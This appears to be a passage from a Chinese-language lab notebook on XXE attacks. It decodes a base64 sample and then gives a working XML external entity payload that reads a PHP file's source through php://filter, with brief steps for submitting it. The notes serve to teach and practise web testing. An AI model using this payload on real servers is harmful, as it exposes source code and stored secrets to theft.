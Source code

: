

5oiR54ix5ZCD55OcIQ==         base64解密  ———》           我爱吃瓜!

![](image39/QQ截图20220329220451.png)







**协议-读文件（绕过）**
参考：https://www.cnblogs.com/20175211lyz/p/11413335.html

```

<?xml version = "1.0"?>
<!DOCTYPE ANY [ <!ENTITY f SYSTEM "php://filter/read=convert.base64-encode/resource=xxe.php"> ]>
<x>&f;</x>
```

开启回显（恢复把刚才注释的语句）

把上面的语句提交

![](image39/QQ截图20220329221103.png)

